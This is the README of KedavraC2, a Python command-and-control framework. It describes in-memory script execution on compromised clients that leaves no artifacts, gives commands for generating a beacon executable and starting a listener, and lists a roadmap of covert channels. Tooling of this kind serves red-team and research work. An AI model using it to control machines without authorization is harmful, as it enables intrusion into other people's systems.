 <!-- Improved compatibility of back to top link: See: https://github.com/othneildrew/Best-README-Template/pull/73 -->
<a name="readme-top"></a>
<!--
*** Thanks for checking out the Best-README-Template. If you have a suggestion
*** that would make this better, please fork the repo and create a pull request
*** or simply open an issue with the tag "enhancement".
*** Don't forget to give the project a star!
*** Thanks again! Now go create something AMAZING! :D
-->



<!-- PROJECT SHIELDS -->
<!--
*** I'm using markdown "reference style" links for readability.
*** Reference links are enclosed in brackets [ ] instead of parentheses ( ).
*** See the bottom of this document for the declaration of the reference variables
*** for contributors-url, forks-url, etc. This is an optional, concise syntax you may use.
*** https://www.markdownguide.org/basic-syntax/#reference-style-links
-->
[![Contributors][contributors-shield]][contributors-url]
[![Forks][forks-shield]][forks-url]
[![Stargazers][stars-shield]][stars-url]
[![Issues][issues-shield]][issues-url]
[![MIT License][license-shield]][license-url]
[![LinkedIn][linkedin-shield]][linkedin-url]


<br />
<div align="center">
  <a href="https://github.com/theophane-droid/KadavraC2">
    <img src="./docs/img/test.png" alt="Logo" width="300" height="300">
  </a>

  <p align="center">
    Use any script, tools, directly executed in memory in your favorite langage !
    <br />
    <a href="#"><strong>Explore the docs »</strong></a>
    <br />
    <br />
    <a href="#">View Demo</a>
    ·
    <a href="#">Report Bug</a>
  </p>
</div>

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li>
      <a href="#about-the-project">About The Project</a>
      <ul>
        <li><a href="#built-with">Built With</a></li>
      </ul>
    </li>
    <li>
      <a href="#getting-started">Getting Started</a>
      <ul>
        <li><a href="#prerequisites">Prerequisites</a></li>
        <li><a href="#installation">Installation</a></li>
      </ul>
    </li>
    <li><a href="#usage">Usage</a></li>
    <li><a href="#roadmap">Roadmap</a></li>
    <li><a href="#contributing">Contributing</a></li>
    <li><a href="#license">License</a></li>
  </ol>
</details>


## About The Project

KedavraC2 is an innovative Command-and-Control (C2) framework designed to facilitate seamless communication and control between remote endpoints and a central server. Built entirely in Python, KedavraC2 offers a unique approach by executing Python bytecode directly, ensuring high performance and low overhead.

Key Features:

1. Python Bytecode Execution: KedavraC2 eliminates the need for traditional interpreted code execution by directly processing Python bytecode. This approach significantly improves the framework's performance and response times.

2. Cross-Platform Support: With Python being highly portable, KedavraC2 ensures compatibility across various operating systems, including Windows, macOS, and Linux.

3. Modular Architecture: KedavraC2 follows a modular design, allowing easy integration of new functionalities and extensions. This makes it flexible and adaptable to various use cases and environments.

4. Script execution: KedavraC2 can execute any python-based script on compromised client. You can make all you recon and exploitation without dropping any artifact !


## Getting Started

This is an example of how you may give instructions on setting up your project locally.
To get a local copy up and running follow these simple example steps.

### Prerequisites

Please ensure to install python>=3.8 :

[Official python site](https://www.python.org/downloads/)

### Installation

1. Clone the repo

```bash
git clone https://github.com/theophane-droid/KedavraC2
```

2. Install dependancies

```bash
cd KedavraC2
python3 -m pip install -r requirements.txt
```

## Usage

### Create a beacon

```bash
python -m kedavra generate --dest_ip localhost --dest_port 4444 --output aaa.exe --format exe --beacon_type socket
```

> ⚠️ You can not cross-compile beacons, e.g. you must compile windows on windows or linux on linux

### Listen to a beacon

```bash
python -m kedavra listen --listener_type socket --port 4444
```

## Roadmap

- [x] Indicate last contact time on implant
- [x] Automatic compilation using CLI
- [x] README.md
- [x] Command execution
- [x] Script execution
- [ ] Library loading
    - [ ] Load any script size
    - [ ] Compile and send library with dependencies
    - [ ] Use script by using args
- [ ] Cross-protocol network bounce
- [ ] Add builtin tools
- [ ] Protocol support
    - [x] SOCKET
    - [ ] ENCRYPTED SOCKET
    - [ ] HTTPS
    - [ ] DNS

See the [open issues](https://github.com/theophane-droid/KedavraC2/issues) for a full list of proposed features (and known issues).

<p align="right">(<a href="#readme-top">back to top</a>)</p>


<!-- CONTRIBUTING -->
## Contributing

Contributions are what make the open source community such an amazing place to learn, inspire, and create. Any contributions you make are **greatly appreciated**.

If you have a suggestion that would make this better, please fork the repo and create a pull request. You can also simply open an issue with the tag "enhancement".
Don't forget to give the project a star! Thanks again!

1. Fork the Project
2. Create your Feature Branch (`git checkout -b feature/AmazingFeature`)
3. Commit your Changes (`git commit -m 'Add some AmazingFeature'`)
4. Push to the Branch (`git push origin feature/AmazingFeature`)
5. Open a Pull Request

<p align="right">(<a href="#readme-top">back to top</a>)</p>



<!-- LICENSE -->
## License

Distributed under the MIT License. See `LICENSE.txt` for more information.

<p align="right">(<a href="#readme-top">back to top</a>)</p>
